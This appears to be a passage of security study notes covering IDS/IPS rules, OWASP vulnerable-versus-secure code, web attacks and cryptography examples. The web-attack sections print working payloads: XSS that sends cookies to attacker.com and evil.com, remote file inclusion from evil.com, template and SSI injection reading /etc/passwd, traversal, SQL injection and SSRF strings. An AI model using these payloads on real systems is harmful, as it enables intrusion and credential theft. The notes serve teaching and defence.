- **Examples**: Palo Alto Networks, Fortinet FortiGate, Cisco ASA with FirePOWER
```bash
# Example NGFW policy (Palo Alto CLI)
set rulebase security rules "Block-Malware" application "web-browsing"
set rulebase security rules "Block-Malware" service "application-default"
set rulebase security rules "Block-Malware" action "deny"
set rulebase security rules "Block-Malware" log-setting "default"
```

### Intrusion Detection Systems (IDS)

**Detection Methods**:
1. **Signature-based**: Matches known attack patterns (like antivirus signatures)
2. **Anomaly-based**: Detects deviations from normal behavior using statistical analysis
3. **Hybrid**: Combines signature and anomaly detection

**Types**:
- **NIDS (Network IDS)**: Monitors network traffic
- **HIDS (Host IDS)**: Monitors individual host activities within a network segment 

```bash
# Snort IDS configuration and rules
# /etc/snort/snort.conf
var HOME_NET 192.168.1.0/24
var EXTERNAL_NET !$HOME_NET

# Snort rules (/etc/snort/rules/local.rules)
alert tcp any any -> $HOME_NET 80 (msg:"HTTP Attack Detected"; content:"../"; sid:1001; rev:1;)
alert icmp any any -> $HOME_NET any (msg:"ICMP Ping Detected"; sid:1002; rev:1;)
alert tcp any any -> $HOME_NET 22 (msg:"SSH Brute Force"; detection_filter:track by_src, count 5, seconds 60; sid:1003;)

# Run Snort
snort -A console -q -c /etc/snort/snort.conf -i eth0
```

#### OSSEC HIDS Example
```bash
# OSSEC agent configuration (/var/ossec/etc/ossec.conf)
<ossec_config>
  <syscheck>
    <directories check_all="yes">/etc,/usr/bin,/usr/sbin</directories>
    <directories check_all="yes" realtime="yes">/home</directories>
  </syscheck>

  <localfile>
    <log_format>syslog</log_format>
    <location>/var/log/auth.log</location>
  </localfile>
</ossec_config>

# OSSEC rules (/var/ossec/rules/local_rules.xml)
<rule id="100001" level="10">
  <if_matched_sid>5715</if_matched_sid>
  <description>Multiple SSH login failures</description>
  <group>authentication_failures,</group>
</rule>
```

### Intrusion Prevention Systems (IPS)

#### How IPS Works
**Mechanism**: Inline deployment, actively blocks detected threats in real-time
- **Inline Mode**: Traffic passes through IPS, can block malicious packets
- **Detection + Prevention**: Combines IDS detection with active response
- **Response Actions**: Drop packets, reset connections, block IP addresses

```bash
# Suricata IPS configuration
# /etc/suricata/suricata.yaml
default-rule-path: /etc/suricata/rules
rule-files:
  - suricata.rules
  - emerging-threats.rules

# Suricata rules (/etc/suricata/rules/local.rules)
drop tcp any any -> $HOME_NET 80 (msg:"SQL Injection Attempt"; content:"union select"; nocase; sid:2001;)
drop tcp any any -> $HOME_NET any (msg:"Port Scan Detected"; flags:S; threshold:type both, track by_src, count 10, seconds 60; sid:2002;)
reject tcp any any -> $HOME_NET 22 (msg:"SSH Brute Force Block"; detection_filter:track by_src, count 5, seconds 60; sid:2003;)

# Run Suricata in IPS mode
suricata -c /etc/suricata/suricata.yaml -i eth0 --runmode autofp
```

### IDS vs IPS Comparison
| Feature                | IDS                   | IPS                          |
| ---------------------- | --------------------- | ---------------------------- |
| **Deployment**         | Out-of-band (passive) | Inline (active)              |
| **Response**           | Alerts only           | Blocks + alerts              |
| **Performance Impact** | Minimal               | Can introduce latency        |
| **Detection**          | After-the-fact        | Real-time prevention         |
| **False Positives**    | Less critical         | Can block legitimate traffic |
| **Network Impact**     | None if fails         | Single point of failure      |

### SIEM Integration
```bash
# Forward IDS/IPS logs to SIEM
# Syslog configuration for centralized logging
echo "*.* @@siem-server:514" >> /etc/rsyslog.conf
systemctl restart rsyslog

# Splunk Universal Forwarder for Snort logs
[monitor:///var/log/snort/alert]
sourcetype = snort_alert
index = security

# ELK stack Logstash configuration for Suricata
input {
  file {
    path => "/var/log/suricata/eve.json"
    codec => "json"
    type => "suricata"
  }
}

filter {
  if [type] == "suricata" {
    date {
      match => [ "timestamp", "ISO8601" ]
    }
  }
}

output {
  elasticsearch {
    hosts => ["localhost:9200"]
    index => "suricata-%{+YYYY.MM.dd}"
  }
}
```

## Network Segmentation

**Purpose**: Divide network into smaller, isolated segments to limit attack spread and improve security.

**Types**:
- **Physical Segmentation**: Separate hardware/switches for each segment
- **VLAN Segmentation**: Virtual LANs using 802.1Q tagging
- **Subnet Segmentation**: IP-based network isolation
- **Micro-segmentation**: Application-level isolation using software-defined networking

**Implementation**:
- **Perimeter Segmentation**: DMZ, internal, management networks
- **User Segmentation**: Guest, employee, admin networks
- **Application Segmentation**: Database, web, application tiers
- **Zero Trust Segmentation**: Verify every connection, assume breach

**Benefits**:
- Contain lateral movement during breaches
- Reduce attack surface and blast radius
- Improve compliance and monitoring
- Enhanced performance through traffic isolation

## VPN Technologies
VPN (Virtual Private Network) creates secure connections over public networks.

### VPN Types
- **IPSec**: Network layer VPN, site-to-site
- **OpenVPN**: SSL/TLS based, flexible
- **WireGuard**: Modern, fast, minimal attack surface

### IPsec VPN Setup
IPsec (Internet Protocol Security) is a suite of protocols used to secure communication over IP networks.

**Policy-based VPN**: Encrypts traffic based on rules (IP, ports, protocols). Each type can use its own Security Association (SA).
**Route-based VPN**: All traffic through virtual interface encrypted using single SA pair.

### IPsec Protocols & Modes
**Protocols**:
- **AH (Authentication Header)**: Provides authentication & integrity (no encryption).
- **ESP (Encapsulating Security Payload)**: Provides encryption, integrity, or both.

**Modes**:
- **Transport Mode**: Encrypts only the payload, not the IP header.
- **Tunnel Mode**: Encrypts the entire IP packet (header + payload).

**Algorithms**: MD5/SHA-1/SHA-256 (hashing), AES/3DES (encryption)  
**Key Exchange**: IKE (Internet Key Exchange) protocol negotiates keys dynamically. Phase 1 establishes secure channel, Phase 2 negotiates SAs.

# Web Application Security

## OWASP Standards

**OWASP Top 10 (2021)**: Standard awareness document for developers and web application security. Represents broad consensus about the most critical security risks to web applications.

**Application Security Verification Standard (ASVS)**: Guide for secure app development to align developers, vendors, and tools
- **L1**: Basic security requirements for all applications
- **L2**: Standard for apps handling sensitive data
- **L3**: Highest assurance for critical applications

### 1) Broken Access Control

```python
# VULNERABLE: IDOR (no ownership check)
@app.route("/user/<id>")
def get_user(id):
    return jsonify(db.users.find_one({"id": id}))

# SECURE: Enforce auth and ownership
@app.route("/user/<id>")
def get_user(id):
    if not current_user.is_authenticated:
        abort(401)
    if current_user.id != id and not current_user.is_admin:
        abort(403)
    return jsonify(db.users.find_one({"id": id}))
```


### 2) Cryptographic Failures

```python
# VULNERABLE: Storing plaintext password
db.users.insert_one({"user": user, "pwd": password})

# SECURE: Hash with bcrypt
from bcrypt import hashpw, gensalt
pwd_hash = hashpw(password.encode(), gensalt())
db.users.insert_one({"user": user, "pwd_hash": pwd_hash})
```


### 3) Injection

```python
# VULNERABLE: SQL injection
cursor.execute("SELECT * FROM users WHERE name = '" + user_input + "';")

# SECURE: Parameterized query
cursor.execute("SELECT * FROM users WHERE name = %s;", (user_input,))
```

### 4) Insecure Design

```js
// VULNERABLE: Client controls admin flag
if (req.query.isAdmin == "true") {
  grantAdminAccess();
}

// SECURE: Server enforces role
if (!req.user || !req.user.roles.includes("admin")) {
  return res.sendStatus(403);
}
grantAdminAccess();
```

### 5) Security Misconfiguration

```nginx
# VULNERABLE: Directory listing enabled
location / {
    autoindex on;
}

# SECURE: Disable listing + add headers
location / {
    autoindex off;
    add_header X-Content-Type-Options nosniff;
    add_header X-Frame-Options DENY;
}
```

### 6) Vulnerable and Outdated Components

```json
// VULNERABLE: Old package with CVEs
"dependencies": {
  "lodash": "4.17.4"
}

// SECURE: Updated + audit
"dependencies": {
  "lodash": "^4.17.21"
}
// Run: npm audit && npm audit fix
```

### 7) Identification and Authentication Failures

```python
# VULNERABLE: Weak password check, no lockout
if stored_pwd == request.form["password"]:
    login(user)

# SECURE: Hashed password + MFA + lockout
if bcrypt.checkpw(password.encode(), user.pwd_hash):
    if not verify_mfa(user, request.form["mfa_code"]):
        abort(401)
    create_session(user.id, expires_in=3600)  # short expiry
else:
    record_failed_login(user, request.ip)
```

### 8) Software and Data Integrity Failures

```python
# VULNERABLE: Unsigned/unverified plugin
plugin = __import__(request.args["plugin"])
plugin.run()

# SECURE: Allowlist + signature verification
if plugin_name not in ALLOWED_PLUGINS:
    abort(403)
if not verify_signature(plugin_file, plugin_signature):
    abort(403)
load_plugin(plugin_file).run()
```

### 9) Security Logging and Monitoring Failures

```python
# VULNERABLE: No logging on failed login
if not check_password(user, password):
    return "Invalid login"

# SECURE: Log + alert + counter
if not check_password(user, password):
    logger.warning("failed_login", extra={"user": user, "ip": request.ip})
    increment_failed_counter(user, request.ip)
    if get_failed_counter(user) > 5:
        alert_security_team(user)
    return "Invalid login"
```

### 10) Server-Side Request Forgery (SSRF)

```python
# VULNERABLE: Fetch arbitrary URL
url = request.args.get("url")
data = requests.get(url).text

# SECURE: Allowlist + block internal IPs
from urllib.parse import urlparse
u = urlparse(url)
if u.scheme not in ("http", "https"):
    abort(400)
if not is_allowed_hostname(u.hostname) or is_private_ip(resolve_ip(u.hostname)):
    abort(403)
data = requests.get(url, timeout=5).text
```

## SQL Injection
```sql
-- Vulnerable query
SELECT * FROM users WHERE username = '" + input + "' AND password = '" + password + "'

-- Attack payload
admin' OR '1'='1' --

-- Resulting query
SELECT * FROM users WHERE username = 'admin' OR '1'='1' --' AND password = ''

-- Prevention: Parameterized queries
SELECT * FROM users WHERE username = ? AND password = ?
```

## Buffer Overflow
```c
// Vulnerable code
char buffer[10];
strcpy(buffer, user_input); // No bounds checking

// Attack: Input longer than buffer size overwrites adjacent memory
// Prevention: Use safe functions, bounds checking
strncpy(buffer, user_input, sizeof(buffer) - 1);
buffer[sizeof(buffer) - 1] = '\0';
```

## Cross-Site Scripting (XSS)
```javascript
// Stored XSS
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Reflected XSS
http://vulnerable.com/search?q=<script>alert('XSS')</script>

// DOM-based XSS
document.getElementById('content').innerHTML = location.hash.substring(1);

// Prevention
function escapeHtml(text) {
  return text
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}
```

## Cross-Site Request Forgery (CSRF)
```html
<!-- Malicious form -->
<form action="http://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>

<!-- Prevention: CSRF token -->
<input type="hidden" name="_token" value="random_csrf_token">
```

## Content Security Policy (CSP)
CSP defines allowed content sources to mitigate XSS and data injection attacks.

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self'
```
* **default-src**: fallback
* **script-src/style-src/img-src**: allowed sources

## Strict-Transport-Security (HSTS)
The HSTS header ensures that web browsers will always connect over HTTPS.

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```
* **max-age:** duration in seconds
* **includeSubDomains**: applies to all subdomains
* **preload**: eligible for browser preload lists

## X-Content-Type-Options
Prevents MIME type sniffing attacks by enforcing declared content types.

```http
X-Content-Type-Options: nosniff
```
* **nosniff**: browser must respect Content-Type header
* Prevents execution of non-executable MIME types

## Referrer-Policy
Controls how much referrer information is sent with requests.

```http
Referrer-Policy: strict-origin-when-cross-origin 
```
* **strict-origin-when-cross-origin:** full URL for same-origin, origin for cross-origin
* **strict-origin:** only origin for cross-origin requests
* **same-origin:** only for same-origin requests
* **no-referrer:** never send referrer

## Common Web Attacks

### Directory Traversal
**Mechanism**: Exploits insufficient input validation to access files outside web root.
```bash
# Attack examples
http://site.com/view.php?file=../../../etc/passwd
http://site.com/download.php?path=....//....//etc/hosts
```
**Prevention**: Input validation, path canonicalization, chroot jails.

### Authentication Bypass
**Mechanism**: Circumvents authentication through logic flaws or injection.
```sh
# SQL injection bypass
username: admin'--
password: anything

# Logic flaw
POST /login HTTP/1.1
authenticated=true&user=admin
```
**Prevention**: Secure session management, input validation, proper logic flow.

### Insecure Direct Object Reference (IDOR)
**Mechanism**: Direct access to objects without authorization checks.
```bash
# Vulnerable URLs
GET /user/profile?id=123    # Access other users by changing ID
GET /document/1234          # Access documents by guessing IDs
```
**Prevention**: Access control checks, indirect references, session validation.

### File Inclusion (LFI/RFI)
**Local File Inclusion**:
```php
# Vulnerable code
include($_GET['page'] . '.php');

# Attack
http://site.com/index.php?page=../../../etc/passwd%00
```

**Remote File Inclusion**:
```bash
# Attack
http://site.com/index.php?page=http://evil.com/shell.txt
```
**Prevention**: Input validation, allowlists, disable remote includes.

### Cross Site Request Forgery (CSRF)
**Mechanism**: Forces authenticated users to execute unwanted actions.
```html
<!-- Malicious site -->

<form action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="attacker">
    <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```
**Prevention**: CSRF tokens, SameSite cookies, referrer validation.

### Cross Site Scripting (XSS)
**Reflected XSS**:
Reflected XSS occurs when user input is immediately returned by the server without proper sanitization.

```javascript
// App echoes a 'q' query parameter directly into the page.
"http://site.com/search?q=<script>alert('XSS')</script>"

// Page displays: Results for <script>alert('XSS')</script>
```

**Stored XSS**:
Stored XSS occurs when malicious scripts are permanently stored on the target server, such as in a database, and executed when users access the affected content.
```javascript
<script>document.location='http://evil.com/steal.php?c='+document.cookie</script>
```

**DOM XSS**:
DOM-based XSS occurs when the vulnerability exists in client-side code rather than server-side. The attack payload is executed as a result of modifying the DOM environment in the victim's browser.
```javascript
// URL: http://site.com#<script>alert('XSS')</script>
document.getElementById('content').innerHTML = location.hash.substring(1);
```
**Prevention**: Output encoding, Content Security Policy, input validation.

### Server Side Request Forgery (SSRF)
**Mechanism**: Server makes requests to unintended locations.
```bash
# Internal service access
http://site.com/fetch?url=http://localhost:8080/admin
http://site.com/fetch?url=http://169.254.169.254/metadata

# Cloud metadata
http://site.com/proxy?url=http://169.254.169.254/latest/meta-data/
```
**Prevention**: URL allowlists, network segmentation, input validation.

### Server Side Template Injection (SSTI)
**Mechanism**: Injects malicious code into template engines.
```python
# Jinja2 (Python)
{{7*7}}                           # Basic test → 49
{{config.items()}}                # Access config
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}

# Twig (PHP)
{{7*7}}                           # Basic test → 49
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```
**Prevention**: Sandboxed templates, input validation, avoid user-controlled templates.

### Server Side Includes (SSI)
**Mechanism**: Injects server-side directives in web pages.
```html
<!-- Basic SSI injection -->
<!--#exec cmd="whoami"-->
<!--#exec cmd="cat /etc/passwd"-->
<!--#include file="/etc/passwd"-->

<!-- URL injection -->
http://site.com/page.shtml?name=<!--#exec cmd="id"-->
```
**Prevention**: Disable SSI, input validation, restricted SSI commands.

# Secure Programming

## Secure C Programming
**Why C is Insecure**: Low-level memory access, manual memory management, no automatic bounds checking, compiler optimizations can worsen exploits

**Common C Vulnerabilities**:
- **Buffer Overflows**: `gets(buf)` → use `fgets()`, `strncpy()`
- **Format String**: `printf(user_input)` → use `printf("%s", user_input)`
- **Integer Overflow**: Sign errors, use bounds checking
- **Use-After-Free**: Access memory after it has been deallocated → validate pointers
- **Double Free/Memory Leaks**: Freeing already-freed memory or failing to release heap memory

**Mitigation Techniques**:
- **Safe functions**: `strncpy`, `snprintf`, `fgets`
- **Compiler protections**: Stack canaries, `-fstack-protector`, `-D_FORTIFY_SOURCE=2`
- **Runtime protections**: ASLR, DEP/NX, AddressSanitizer (ASan)
- **CERT C Standards**: INT32-C (no overflow), STR31-C (no strcpy), MEM30-C (no freed access)

## Secure Java Programming
**Java Security Model**: Type safety, automatic memory management, bytecode verification, sandboxing (deprecated SecurityManager), managed class loading

**Common Java Vulnerabilities**:
- **Race Conditions**: Concurrent access to shared resources → use platform APIs for temp files
- **Input Validation**: Environment variables, user input → validate, canonicalize paths, whitelist
- **Public Mutable Fields**: External modification → encapsulate, restrict access
- **Weak Randomness**: `java.util.Random` for secrets → use `SecureRandom`
- **Overridable Methods**: Security bypass → declare `final` or `private`
- **Null Dereference**: Crashes → validate instead of catching `NullPointerException`

# Cryptography

## Classical Ciphers
Historical encryption methods that form the foundation of modern cryptography.

### Caesar Cipher
Shifts each letter by a fixed number of positions in the alphabet.
```bash
# Encryption
"Hello" → "Khoor" (shift 3)

# Decryption
"Khoor" → "Hello" (shift -3)
```
**Weakness**: Only 25 possible keys, easily broken by brute force

### ROT13
Special case of Caesar cipher with fixed shift of 13.
```bash
"Hello" → "Uryyb"
```
Self-inverse (applying ROT13 twice returns original text)

### Atbash Cipher
Substitutes each letter with its mirror position in the alphabet (A↔Z, B↔Y, etc.).
```bash
"HELLO" → "SVOOL" # (H→S, E→V, L→O, L→O, O→L)
```
Self-inverse like ROT13

### Vigenère Cipher
Uses a keyword to shift letters by different amounts (polyalphabetic substitution).

```bash
# Plaintext
HELLO

# Keyword: 
KEY (repeated: KEYKE)

# Encryption:
H+K=R, E+E=I, L+Y=J, L+K=V, O+E=S → "RIJVS"

# 'H+K=R' Explained
7 (H) + 10 (K) = 17 (R) # A=0, B=1, ..., Z=25

# Result: "RIJVS"
```
- **Strength**: More secure than monoalphabetic ciphers
- **Weakness**: Vulnerable to frequency analysis and Kasiski examination

### Substitution Ciphers
Each letter is replaced by another letter/symbol according to a fixed mapping.

- **Monoalphabetic**: One-to-one letter mapping (e.g., A→X, B→M, C→Q...)
```bash
# Example mapping
A→X, B→M, C→Q, D→L, E→V, F→T, G→N, H→Y, I→W, J→K, K→J, L→P, M→B, N→G, O→Z, P→R, Q→C, R→S, S→F, T→H, U→E, V→A, W→I, X→D, Y→O, Z→U

"Hello" → "YVPPZ"
```
- **Frequency Analysis**: Vulnerable because letter frequencies are preserved
- **Polyalphabetic**: Uses multiple substitution alphabets (like Vigenère)

### XOR Cipher
Uses the XOR (exclusive OR) bitwise operation to encrypt data.
- **Operation**: Each bit of plaintext is XORed with corresponding bit of key
- **Property**: Self-inverse (XOR with same key decrypts)

**Example**:
```bash
# ASCII values
'A' = 01000001
Key = 01010101
XOR = 00010100 = encrypted 

# Decryption (XOR again with same key)
00010100 XOR 01010101 = 01000001 = 'A'
```

**XOR Truth Table**:
| A   | B   | A⊕B |
| --- | --- | --- |
| 0   | 0   | 0   |
| 0   | 1   | 1   |
| 1   | 0   | 1   |
| 1   | 1   | 0   |

**Key Properties**:
- **Perfect Security**: If key is truly random, same length as message, and used only once (One-Time Pad)
- **Stream Cipher**: Can encrypt data of any length with repeating key
- **Weakness**: Key reuse allows cryptanalysis through frequency analysis

## Symmetric Encryption
Symmetric encryption uses the same key for both encryption and decryption.

### AES (Advanced Encryption Standard)
**Technical Mechanism**: Block cipher using substitution-permutation network (SPN)
- **Block Size**: 128 bits
- **Key Sizes**: 128, 192, or 256 bits
- **Rounds**: 10 (AES-128), 12 (AES-192), 14 (AES-256)

**How AES Works**:
1. **Key Expansion**: Original key expanded into round keys
2. **Initial Round**: AddRoundKey operation
3. **Main Rounds** (9/11/13 times):
   - **SubBytes**: S-box substitution for confusion
   - **ShiftRows**: Cyclic shift of rows for diffusion
   - **MixColumns**: Matrix multiplication for diffusion
   - **AddRoundKey**: XOR with round key
4. **Final Round**: SubBytes → ShiftRows → AddRoundKey (no MixColumns)

```python
# AES encryption examples
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import os

# High-level AES with Fernet (AES-128 in CBC mode with HMAC)
key = Fernet.generate_key()
cipher = Fernet(key)
message = b"Secret message"
encrypted = cipher.encrypt(message)
decrypted = cipher.decrypt(encrypted)

# Low-level AES implementation
def aes_encrypt_decrypt():
    # Generate random 256-bit key and IV
    key = os.urandom(32)  # 256-bit key
    iv = os.urandom(16)   # 128-bit IV

    # Create cipher
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())

    # Encrypt
    encryptor = cipher.encryptor()
    plaintext = b"This is a secret message!" + b"\x00" * (16 - len(b"This is a secret message!") % 16)  # Padding
    ciphertext = encryptor.update(plaintext) + encryptor.finalize()

    # Decrypt
    decryptor = cipher.decryptor()
    decrypted = decryptor.update(ciphertext) + decryptor.finalize()

    return ciphertext, decrypted.rstrip(b"\x00")

# AES modes of operation
# ECB (Electronic Codebook) - Not recommended
cipher_ecb = Cipher(algorithms.AES(key), modes.ECB(), backend=default_backend())

# CBC (Cipher Block Chaining) - Requires IV
cipher_cbc = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())

# GCM (Galois/Counter Mode) - Authenticated encryption
cipher_gcm = Cipher(algorithms.AES(key), modes.GCM(os.urandom(12)), backend=default_backend())
```

### DES (Data Encryption Standard) - Legacy
**Technical Mechanism**: Feistel network with 16 rounds
- **Block Size**: 64 bits
- **Key Size**: 56 bits (8 parity bits = 64 total)
- **Status**: Deprecated due to small key space

### 3DES (Triple DES)
**Technical Mechanism**: Apply DES three times (Encrypt-Decrypt-Encrypt)
- **Key Size**: 112 or 168 bits
- **Status**: Legacy, being phased out for AES

### ChaCha20
**Technical Mechanism**: Stream cipher based on ARX operations (Add-Rotate-XOR)
- **Key Size**: 256 bits
- **Nonce**: 96 bits
- **Advantages**: Fast in software, resistance to timing attacks

```python
# ChaCha20 encryption
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

def chacha20_encrypt():
    key = os.urandom(32)  # 256-bit key
    nonce = os.urandom(12)  # 96-bit nonce

    cipher = Cipher(algorithms.ChaCha20(key, nonce), mode=None, backend=default_backend())
    encryptor = cipher.encryptor()

    plaintext = b"Secret message"
    ciphertext = encryptor.update(plaintext) + encryptor.finalize()

    return ciphertext, key, nonce
```

## Asymmetric Encryption
Asymmetric encryption uses a pair of keys: a public key for encryption and a private key for decryption.

### RSA (Rivest-Shamir-Adleman)
**Technical Mechanism**: Based on difficulty of factoring large prime numbers
- **Key Sizes**: 1024, 2048, 3072, 4096 bits (2048+ recommended)
- **Mathematical Foundation**: n = p × q (where p, q are large primes)

**How RSA Works**:
1. **Key Generation**:
   - Choose two large primes p and q
   - Calculate n = p × q (modulus)
   - Calculate φ(n) = (p-1)(q-1) (Euler's totient)
   - Choose e (public exponent, commonly 65537)
   - Calculate d = e^(-1) mod φ(n) (private exponent)
   - Public key: (n, e), Private key: (n, d)
2. **Encryption**: c = m^e mod n
3. **Decryption**: m = c^d mod n

```python
# RSA implementation
from cryptography.hazmat.primitives.asymmetric import rsa, padding
from cryptography.hazmat.primitives import hashes, serialization

# Generate RSA key pair
private_key = rsa.generate_private_key(
    public_exponent=65537,
    key_size=2048,
    backend=default_backend()
)
public_key = private_key.public_key()

# Encrypt with public key
message = b"Secret message"
ciphertext = public_key.encrypt(
    message,
    padding.OAEP(
        mgf=padding.MGF1(algorithm=hashes.SHA256()),
        algorithm=hashes.SHA256(),
        label=None
    )
)

# Decrypt with private key
plaintext = private_key.decrypt(
    ciphertext,
    padding.OAEP(
        mgf=padding.MGF1(algorithm=hashes.SHA256()),
        algorithm=hashes.SHA256(),
        label=None
    )
)

# Export keys
private_pem = private_key.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.PKCS8,
    encryption_algorithm=serialization.NoEncryption()
)

public_pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)
```

```bash
# RSA with OpenSSL
# Generate RSA key pair
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -pubout -out public.pem

# Encrypt with public key (OAEP padding)
openssl pkeyutl -encrypt -inkey public.pem -pubin -in message.txt -out encrypted.bin -pkeyopt rsa_padding_mode:oaep

# Decrypt with private key
openssl pkeyutl -decrypt -inkey private.pem -in encrypted.bin -out decrypted.txt -pkeyopt rsa_padding_mode:oaep
```

### ECC (Elliptic Curve Cryptography)
**Technical Mechanism**: Based on discrete logarithm problem over elliptic curves
- **Advantages**: Smaller key sizes, faster operations, lower power consumption
- **Common Curves**: P-256, P-384, P-521, secp256k1

**How ECC Works**:
1. **Mathematical Foundation**: y² = x³ + ax + b (mod p)
2. **Point Addition**: Geometric operation on curve points
3. **Scalar Multiplication**: k × P (adding point P to itself k times)
4. **Key Generation**:
   - Private key: random integer k
   - Public key: Q = k × G (where G is generator point)

```python
# ECC key generation and encryption
from cryptography.hazmat.primitives.asymmetric import ec
from cryptography.hazmat.primitives.kdf.hkdf import HKDF

# Generate ECC key pair
private_key = ec.generate_private_key(ec.SECP256R1(), backend=default_backend())
public_key = private_key.public_key()

# ECC is typically used for key exchange (ECDH) or digital signatures (ECDSA)
# For encryption, we use ECC for key agreement, then symmetric encryption

def ecc_encrypt(message, recipient_public_key):
    # Generate ephemeral key pair
    ephemeral_private_key = ec.generate_private_key(ec.SECP256R1(), backend=default_backend())
    ephemeral_public_key = ephemeral_private_key.public_key()

    # Perform ECDH key agreement
    shared_key = ephemeral_private_key.exchange(ec.ECDH(), recipient_public_key)

    # Derive AES key from shared secret
    derived_key = HKDF(
        algorithm=hashes.SHA256(),
        length=32,
        salt=None,
        info=b'encryption',
        backend=default_backend()
    ).derive(shared_key)

    # Encrypt with AES
    cipher = Cipher(algorithms.AES(derived_key), modes.GCM(os.urandom(12)), backend=default_backend())
    encryptor = cipher.encryptor()
    ciphertext = encryptor.update(message) + encryptor.finalize()

    return ephemeral_public_key, ciphertext, encryptor.tag
```

### DH (Diffie-Hellman Key Exchange)
**Technical Mechanism**: First practical public key exchange protocol, based on discrete logarithm problem
- **Purpose**: Allow two parties to establish a shared secret over insecure channel
- **Security**: Based on difficulty of computing discrete logarithms in finite fields
- **Key Sizes**: 1024-3072 bits (2048+ recommended)

**How Diffie-Hellman Works**:
1. Agree on public numbers:
   * Prime `p` and generator `g`.
2. Each picks a private key (`a`, `b`) and computes a public key:
   * Alice: `A = g^a mod p`
   * Bob: `B = g^b mod p`
3. Exchange public keys.
4. Compute shared secret:
   * Alice: `S = B^a mod p`
   * Bob: `S = A^b mod p`
   * Both end up with the same `S = g^(ab) mod p`.

<details>
<summary><strong>Mathematical Example</strong></summary>

```
Public parameters: p = 23, g = 5

Alice's keys:
- Private key a = 6
- Public key A = 5^6 mod 23 = 15625 mod 23 = 8

Bob's keys:
- Private key b = 15
- Public key B = 5^15 mod 23 = 30517578125 mod 23 = 19

Shared secret calculation:
- Alice: S = 19^6 mod 23 = 47045881 mod 23 = 2
- Bob: S = 8^15 mod 23 = 35184372088832 mod 23 = 2

Shared secret S = 2
```

</details>

```python
# Manual DH implementation for educational purposes
def manual_dh_example():
    # Public parameters (RFC 3526 - 2048-bit MODP Group)
    p = 23
    g = 2

    # Alice's keys
    a = random.randint(1, p-2)  # Private key
    A = pow(g, a, p)            # Public key

    # Bob's keys
    b = random.randint(1, p-2)  # Private key
    B = pow(g, b, p)            # Public key

    # Shared secret calculation
    alice_shared = pow(B, a, p)  # Alice computes shared secret
    bob_shared = pow(A, b, p)    # Bob computes shared secret

    assert alice_shared == bob_shared
    return alice_shared
```

**Security Considerations**:
- **Small Subgroup Attack**: Ensure generator g has large order
- **Invalid Curve Attack**: Validate public keys are in valid range
- **Man-in-the-Middle**: DH provides no authentication (needs signatures)
- **Forward Secrecy**: Use ephemeral keys (DHE) for perfect forward secrecy

### ECDH (Elliptic Curve Diffie-Hellman)
**Technical Mechanism**: Key agreement protocol using elliptic curves (elliptic curve version of DH)
- **Purpose**: Allow two parties to establish a shared secret over insecure channel
- **Security**: Based on elliptic curve discrete logarithm problem

**How ECDH Works**:
1. **Setup**: Both parties agree on elliptic curve and generator point G
2. **Key Generation**:
   - Alice: private key a, public key A = a × G
   - Bob: private key b, public key B = b × G
3. **Key Exchange**: Alice and Bob exchange public keys
4. **Shared Secret Calculation**:
   - Alice computes: S = a × B = a × (b × G) = ab × G
   - Bob computes: S = b × A = b × (a × G) = ab × G
   - Both arrive at same shared secret S

```python
# ECDH key exchange
def ecdh_key_exchange():
    # Alice generates key pair
    alice_private_key = ec.generate_private_key(ec.SECP256R1(), backend=default_backend())
    alice_public_key = alice_private_key.public_key()

    # Bob generates key pair
    bob_private_key = ec.generate_private_key(ec.SECP256R1(), backend=default_backend())
    bob_public_key = bob_private_key.public_key()

    # Alice computes shared secret
    alice_shared_key = alice_private_key.exchange(ec.ECDH(), bob_public_key)

    # Bob computes shared secret
    bob_shared_key = bob_private_key.exchange(ec.ECDH(), alice_public_key)

    # Both shared keys are identical
    assert alice_shared_key == bob_shared_key

    # Derive encryption key from shared secret
    derived_key = HKDF(
        algorithm=hashes.SHA256(),
        length=32,
        salt=None,
        info=b'shared encryption key',
        backend=default_backend()
    ).derive(alice_shared_key)

    return derived_key

# Use ECDH in practice
shared_key = ecdh_key_exchange()
cipher = Cipher(algorithms.AES(shared_key), modes.GCM(os.urandom(12)), backend=default_backend())
```

### ElGamal
**Technical Mechanism**: Based on discrete logarithm problem
- **Properties**: Probabilistic encryption (same plaintext can produce different ciphertexts)
- **Key Size**: Similar to RSA for equivalent security

### DSA (Digital Signature Algorithm)
**Technical Mechanism**: Used for digital signatures, not encryption
- **Based on**: Discrete logarithm problem in finite fields
- **Key Sizes**: 1024-3072 bits
- **Modern Alternative**: ECDSA (uses elliptic curves)

## Digital Signatures
Digital signatures merge authentication, integrity, and non-repudiation, enabling verification of a message or document's authenticity.

```python
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import rsa, padding

# Generate key pair
private_key = rsa.generate_private_key(
    public_exponent=65537,
    key_size=2048
)
public_key = private_key.public_key()

# Sign message
message = b"Important message"
signature = private_key.sign(
    message,
    padding.PSS(
        mgf=padding.MGF1(hashes.SHA256()),
        salt_length=padding.PSS.MAX_LENGTH
    ),
    hashes.SHA256()
)

# Verify signature
public_key.verify(
    signature,
    message,
    padding.PSS(
        mgf=padding.MGF1(hashes.SHA256()),
        salt_length=padding.PSS.MAX_LENGTH
    ),
    hashes.SHA256()
)
```

